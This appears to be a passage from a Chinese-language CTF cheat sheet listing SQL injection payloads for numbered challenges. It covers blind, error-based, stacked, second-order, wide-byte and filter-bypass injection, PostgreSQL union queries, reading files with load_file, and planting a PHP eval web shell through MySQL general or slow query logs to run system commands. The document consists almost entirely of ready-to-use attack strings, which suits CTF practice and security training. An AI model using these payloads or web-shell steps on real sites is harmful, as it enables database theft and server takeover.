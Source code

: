 ```text
?id=1 and if (ascii(substr(sql语句,{1},1)={1},1,sleep(5)) # 与sqlmap一致 休眠即可
```
### SQL注入-009
> 报错注入 extractvalue、updaxml 有长度限制 可以采用倒叙
```text
?id=1 or extractvalue(0x0a,concat(0x0a,(select group_concat(flag) from ctf.flag)))--+
?id=1 or extractvalue(0x0a,concat(0x0a,(select REVERSE(group_concat(flag)) from ctf.flag)))--+
```
### SQL注入-010
> 堆叠注入
```text
?id=-1;select * from ctf.flag;
```
### SQL注入-011
> 二次注入 先注册一个 为 `admin'#`的账户 ，后面修改它的密码，即修改admin的密码;
### SQL注入-012
> 宽字节注入 利用`%df`和转义符`\\`构成汉字进行利用
> ?id=-1%df' union select 1,(select group_concat(flag) from ctf.flag),3 --+
### SQL注入-013
> 过滤了 ` （空格）+（加号）` 可以用 注释 `/**/` 绕过
> `?id=-1'/**/union/**/select/**/1,(select/**/group_concat(flag)/**/from/**/ctf.flag),3/**/%23`
### SQL注入-014
> 过滤了 `,` 可以与 join 起 配合别名
> `?id=-1' union select * from (select 1)A join((select group_concat(flag) from ctf.flag)B join(select 3)C) --+`
### SQL注入-015
> 文件读写, `?id=-1' union select 1,2,(select load_file('/flag'))--+`
### SQL注入-016
> 基于日志写入shell，由于 /flag的权限为400 无法直接读取，而 `/cat_flag` 可以直接运行获取 /flag的内容 故以下命令
```text
/index.php?id=1;set%20global%20general_log%20=%20on;set%20global%20general_log_file%20=%20%27/var/www/html/info.php%27;show%20variables%20like%20%27%general%%27;
    /index.php?id=1 and select '<?php eval($_GET[1]);?>';
/info.php?1=system('/cat_flag');
```
> 或者利用慢日志查询 直接写shell
```shell
show variables like '%slow_query_log%';		--查看慢查询信息
set global slow_query_log=1;				--启用慢查询日志(默认禁用)
set global slow_query_log_file='/var/www/html/info.php';	--修改日志文件路径
select '<?php @eval($_GET[1]);?>' or sleep(11);
/info.php?1=system('/cat_flag');
```
### SQL注入-017
> postgresql int类型注入 
```text 

?id=-1 UNION select null,string_agg(tablename, ','),null from pg_tables where schemaname='public' # 查表
?id=-1 union select null,string_agg(column_name, ','),null from information_schema.columns where table_schema='public' and table_name='users' # 查列
?id=-1 UNION ALL SELECT NULL,(COALESCE(CAST(flag AS VARCHAR(10000))::text,(CHR(32)))),NULL FROM public.flag--+

```
### SQL注入-018
> postgresql 字符串类型注入 `?id=-1' UNION ALL SELECT NULL,(COALESCE(CAST(flag AS VARCHAR(10000))::text,(CHR(32)))),NULL FROM public.flag--+`